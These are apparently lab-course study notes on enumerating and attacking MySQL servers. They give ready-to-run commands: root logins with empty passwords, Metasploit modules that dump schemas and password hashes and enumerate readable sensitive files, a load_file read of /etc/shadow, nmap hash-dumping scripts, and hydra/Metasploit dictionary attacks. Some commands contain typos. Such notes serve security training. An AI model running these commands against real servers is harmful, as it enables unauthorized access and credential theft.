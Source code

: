 # SQL basics

## Enumeration with mysql context
* Check with nmap [IP] to know if SQL is running on any of the ports on the target system
* `mysql -h [target IP] -u root` ---> -u for the username. Since the target system is running on Ubuntu as chekced in the nmap scan, "root" tends to be the default admin.
* `show databases;` ---> This can be chacked after entering the SQL context via the previous statement. Will show all the SQL DBs present on that system.
* `show tables;`
* Then we can perform SQL queries on any of these listed tables. EG: `select * from [table_name];`
* `help`

## Enumeration with msfconsole
* `use auxiliary/scanner/mysql/mysql_writable_dirs`
  * set "dir_list" to the [directory_file].txt
  * set "verbose" to false as this will avoid a flood of messages.
  * This will check the directories which are writable.
* Q5. Dump the schema of all databases from the server using suitable metasploit module?
  *Commands:
    * `use auxiliary/scanner/mysql/mysql_schemadump`
    * set RHOSTS 192.71.145.3
    * set USERNAME root
    * set PASSWORD ""
    * exploit
 
* Q7. How many of sensitive files present in /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt are readable? List the names.
  * Commands:
    * use auxiliary/scanner/mysql/mysql_file_enum
    * set RHOSTS 192.71.145.3
    * set FILE_LIST /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
    * set PASSWORD ""
    * exploit
   
* Q9. How many database users are present on the database server? Lists their names and password hashes.
  * Commands:
    * use auxiliary/scanner/mysql/mysql_hashdump
    * set RHOSTS 192.71.145.3
    * set USERNAME root
    * set PASSWORD ""
    * exploit
   
* Q11. Check whether “InteractiveClient” capability is supported on the MySQL server.
  * Command: nmap --script=mysql-info -p 3306 192.71.145.3
*** 
**Significance of /etc/shadow**
* The `/etc/shadow` file is a crucial system file in Unix-like operating systems, including Linux. It plays a significant role in enhancing the security of user account passwords on a system. The significance of the `/etc/shadow` file lies in its role in storing password-related information securely:

1. **Password Hash Storage**: The primary purpose of the `/etc/shadow` file is to store password hashes for user accounts. Instead of storing actual plaintext passwords, modern Unix-like systems store password hashes, which are cryptographic representations of passwords. This adds a layer of security because plaintext passwords are not readily available to attackers in case of unauthorized access to the system.

2. **Enhanced Security**: By storing password hashes in `/etc/shadow`, the system ensures that sensitive user authentication information is protected. Only authorized processes and users with proper permissions can access this file, reducing the risk of unauthorized access.

3. **Salted Passwords**: `/etc/shadow` allows for the use of salted passwords. A salt is a random value that is combined with the user's password before hashing. Salting passwords helps prevent the use of precomputed tables (rainbow tables) for password cracking, making it more challenging for attackers to crack passwords.

4. **Shadow Password Suite**: The `/etc/shadow` file is part of the shadow password suite, which separates password-related information from the `/etc/passwd` file. This separation improves security by limiting access to sensitive data. The `/etc/passwd` file, which contains user account information, is generally readable by all users, while `/etc/shadow` is accessible only to users with specific permissions.

5. **Password Aging and Policies**: `/etc/shadow` stores information related to password aging and policies, such as password expiration dates, minimum password age, maximum password age, and password history. This allows system administrators to enforce password management policies effectively.

6. **Root Privileges**: Access to the `/etc/shadow` file is restricted to users with root (superuser) privileges. Ordinary users do not have direct access to this file, preventing them from viewing or modifying password hashes.

7. **Crucial for Security**: Compromising the `/etc/shadow` file can have severe security consequences. Unauthorized access or tampering with this file can lead to the exposure of password hashes and potentially enable password cracking attacks, putting user accounts and system security at risk.
***


* `use auxiliary/scanner/mysql/mysql_hashdump` --> this is designed to extract password hashes from a MYSQL DB server.
* `select load_file ("etc/shadow");`
* **What is the typical format for a password hash?**
 * Eg: $6$eoOI5IAu$S1eBFuRRxwD7qEcUIjHxV7Rkj9OXaIGbIOiHsjPZF2uGmGBjRQ3rrQY3/6M.fWHRBHRntsKhgqnClY2.KC.vA/
 * The password hashes in the /etc/shadow file are typically stored in a format that includes the hash algorithm identifier, the salt, and the hashed password.
 * In this case, it appears to be using the SHA-512 hash algorithm (indicated by $6$), followed by the salt (eoOI5IAu), and then the hashed password.

* **To check if there are any accounts with empty passwords:**
  * `nmap [IP] -p 3306 --script=mysql-empty-password`
 
* **For further info on the target database**
  * `nmap [IP] -p 3306 --script=mysql-info`
 
* **To list all the MySQL users**
  * `nmap [IP] -p 3306 --script=mysql-users --script-args-"mysqluser='root',mysqlpass=''"`
 
* **To list all the databases**
  * `nmap [IP] -p 3306 --script=mysql-databases --script-args="mysqluser='root',mysqlpass=''"`
 
* **To find out location of all the variables associated with the DB**
  * `nmap [IP] -p 3306 --script=mysql-variables --script-args="mysqluser='root',mysqlpass=''"`
  * The most important of the variables in this output will be the location of "datadir" variable
 
* **To audit the MySQL DB**
  * `nmap [IP] -p 3306 --script=mysql-audit --script-args="mysql-audit.username='root',mysql-audit-password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"`
 
* **To list all the hashes**
  * `nmap [IP] -p 3306 --script-args=mysql-dump-hashes --script-args="username='root',password=''"`
 
* **To pass a query in an nmap script**
  * `nmap [IP] -p 3306 --script=mysql-query --script-args="query='select count(*) from [DB-name].[table-name]',username='root',password=''"`
 
# SQL: Dictionary Attack

* `use auxiliary/scanner/mysql/mysql_login`
  * `set rhosts` --> `set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt` --> `set usernmae root` --> `set stop_on_success true` --> `set verbose false`
 
* `hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt [IP] mysql`
